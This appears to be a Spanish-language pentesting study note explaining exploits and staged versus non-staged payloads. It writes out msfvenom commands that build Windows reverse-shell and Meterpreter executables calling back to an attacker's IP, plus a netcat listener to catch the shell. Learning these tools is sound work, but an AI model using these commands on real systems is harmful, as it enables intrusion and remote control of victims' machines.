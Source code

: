 ---------
- Tags: #vulnerabilidades #Exploit #payloads #staged #nonstaged 
---------
# Definición

> Cuando nosotros encontramos una **vulnerabilidad** en un sistema y queremos **aprovecharnos** de ella podemos hacer uso de una herramienta llamada **Exploit**, de este existen dos tipos los [[Exploit's Manuales y Automatizados]].
> Un **Exploit** es una herramienta utilizada para **aprovechar** o **explotar** una **vulnerabilidad en un sistema**. Es decir, cuando nosotros encontramos una vulnerabilidad **podemos buscar un Exploit ya existente** para dicha vulnerabilidad, o crear **nuestro propio Exploit**.

> Cuando es **explotada una vulnerabilidad** con un Exploit se **ejecuta o activa una carga con instrucciones**, esta carga útil son los llamados **Payload**.
> Un **Payload** es un **módulo de un Exploit**, es decir que **utiliza al Exploit como un vehículo para poder llegar a su objetivo** y poder realizar las acciones maliciosas que contenga dentro.
> Por ejemplo tras haber explotado una vulnerabilidad, un Payload **puede permanecer en Standby dentro del sistema atacado** a la espera de algún acontecimiento, ya sea para **transferir datos al atacante**, ejecutar un **Keylogger**, desplegar una **puerta trasera**, **borrar documentos**, entre otras cosas.

Por lo tanto el **Exploit** puede proporcionar el acceso a un **sistema** a través de una **vulnerabilidad**, pero **no tiene por qué realizar el daño mas grave**, ya que **es el Payload que se encarga de eso**.

-------
# Tipos de Payload "Staged" y "Non-Staged"

## Definiciones

> **Payload Staged** Es un tipo de payload que se **divide en dos** **o más etapas**. La primera etapa es **una pequeña parte del código que se envía al objetivo**, cuyo propósito es **establecer una conexión segura entre el atacante y la máquina objetivo**. Una vez que se establece la conexión, **el atacante envía la segunda etapa del payload**, que es la **carga útil real** del ataque. Este enfoque permite a los atacantes **sortear medidas de seguridad adicionales**, ya que ==la carga útil real no se envía hasta que se establece una conexión segura==.

>  **Payload Non-Staged**: Es un tipo de payload que se envía como **una sola entidad** y **no se divide en múltiples etapas**. La carga útil completa **se envía al objetivo en un solo paquete** y **se ejecuta inmediatamente después de ser recibida**. Este enfoque es más simple que el Payload Staged, pero también **es más fácil de detectar por los sistemas de seguridad**, ==ya que se envía todo el código malicioso de una sola vez==.

-------
## Herramienta para crear Payload ``msfvenom``

La herramienta **``msfvenom``** nos permite crear un binario **``.exe``** malicioso, este binario es un **Payload** que puede ser creado de tipo **Staged** o de tipo **Non-Staged** dependiendo de lo que nosotros queramos.

Un ejemplo de creación de un Payload **Non-Staged** sería el siguiente
- **``msfvenom -p windows/x64/shell_reverse_tcp --platform Windows -a x64 LHOST=tu_direccion_ip LPORT=tu_puerto -f exe -o nombrequequieras.exe``**
Acá estamos creando un **``binario .exe`` Payload** de tipo **Non-Staged** que **nos enviará una consola a nuestra IP** al ser **ejecutado** en una máquina **Windows** de *64 Bits*. 

Si deseáramos crear un Payload **Staged**, lo único que hay que hacer ==es cambiar el primer guion bajo por un "``/``"== de la siguiente forma
- **``msfvenom -p windows/x64/shell/reverse_tcp --platform Windows -a x64 LHOST=tu_direccion_ip LPORT=tu_puerto -f exe -o nombrequequieras.exe``**
En ambos casos nosotros tendríamos que **estar en escucha** en el puerto asignado previamente con **``nc``**, para con **``nc``** poder **recibir la consola una vez que se ejecute el binario**.

Cuando ya tengamos el dominio de la consola mediante **``nc``** y la utilicemos veremos que **no podremos** limpiar la consola con **``CTRL+L``** o **ir hacia atrás**, **adelante**, **arriba u abajo**, para poder hacerlo instalaremos una utilidad llamada **``rlwrap``** para agregársela al comando de **``nc``** de la siguiente forma
- **``rlwrap nc -nlvp (Puerto)``**
Y de esta forma ya tendríamos la consola como siempre.

La herramienta **``msfvenom``** está creada para utilizarse comúnmente con "**``meterpreter``**", pero como ya vimos podemos utilizar **``netcat``** de todos modos. 
Con **``meterpreter``** también estaríamos empleando una manera para que el sistema que ejecute el binario nos envié una consola remota pero en este caso **solo al Listener** de la herramienta **``Metasploit``**, esto se puede hacer modificando un poco los parámetros usados anteriormente.
- **``msfvenom -p windows/x64/meterpreter_reverse_tcp --platform Windows -a x64 LHOST=tu_direccion_ip LPORT=tu_puerto -f exe -o nombrequequieras.exe``**
==Aplicando lo mismo que en el caso anterior con "``/``" o con el guion bajo para elegir entre Staged y Non-Staged==.



